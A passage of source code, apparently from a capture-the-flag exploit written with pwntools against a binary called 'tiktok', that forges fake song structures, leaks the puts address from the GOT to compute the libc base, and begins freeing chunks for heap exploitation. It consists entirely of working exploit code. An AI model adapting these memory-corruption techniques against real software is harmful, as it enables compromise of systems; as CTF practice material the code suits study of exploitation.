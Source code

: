 ```
        fake_songs += 'A' * 0x18                # fake_path
        fake_songs += p64(4)                    # fake_fd
        fake_songs += p64(tiktok.got['puts'])   # fake_dir
        fake_songs += p64(tiktok.got['puts'])   # fake_name
        fake_songs += p64(0)                    # fake_content

        fake_songs += p64(0) + p64(0)           # fake_path
        fake_songs += p64(0)                    # fake_path_2
        fake_songs += p64(5)                    # fake_fd
        fake_songs += p64(0x404080)             # fake_dir
        fake_songs += p64(0x404080)             # fake_name
        fake_songs += p64(0x404150)             # fake_content

        fake_songs += p64(0) + p64(0)           # fake_path
        fake_songs += p64(0)                    # fake_path_2
        fake_songs += p64(6)                    # fake_fd
        fake_songs += p64(0x404080)             # fake_dir
        fake_songs += p64(0x404080)             # fake_name
        fake_songs += p64(0x404150)             # fake_content

        fake_songs += p64(0) + p64(0x21)        # fake_path
        fake_songs += p64(0)                    # fake_path_2
        fake_songs += p64(0)                    # fake_fd
        fake_songs += p64(0x404080)             # fake_dir
        fake_songs += p64(0x404080)             # fake_name
        fake_songs += p64(0)                    # fake_content

        fake_songs += p64(0) + p64(0x21)        # fake_path
        fake_songs += p64(0)                    # fake_path_2
        fake_songs += p64(0)                    # fake_fd
        fake_songs += p64(0x404080)             # fake_dir
        fake_songs += p64(0x404080)             # fake_name
        fake_songs += p64(0)                    # fake_content

        fake_songs += p64(0) + p64(0x21)        # fake_path
        fake_songs += p64(0)                    # fake_path_2
        fake_songs += p64(0)                    # fake_fd
        fake_songs += p64(0x404080)             # fake_dir
        fake_songs += p64(0x404080)             # fake_name
        fake_songs += p64(0)                    # fake_content

        fake_songs += p64(0) + p64(0x21)        # fake_path
        fake_songs += p64(0)                    # fake_path_2
        fake_songs += p64(10)                   # fake_fd
        fake_songs += p64(0x404080)             # fake_dir
        fake_songs += p64(0x404080)             # fake_name
        fake_songs += p64(0x401050)             # fake_content

        play_song(sh,18,fake_songs)
        list_playlist(sh)

        puts_addr = 0
        sh.recvuntil('2. ')
        data = sh.recvuntil('-',drop=True)
        for i in data[::-1]:
            puts_addr  = puts_addr &lt;&lt; 8
            puts_addr += ord(i)
        libc.address = puts_addr - libc.symbols['puts']
        success('The libc base address is ' + str(hex(libc.address)))


        remove_song(sh,3)
        remove_song(sh,4)
```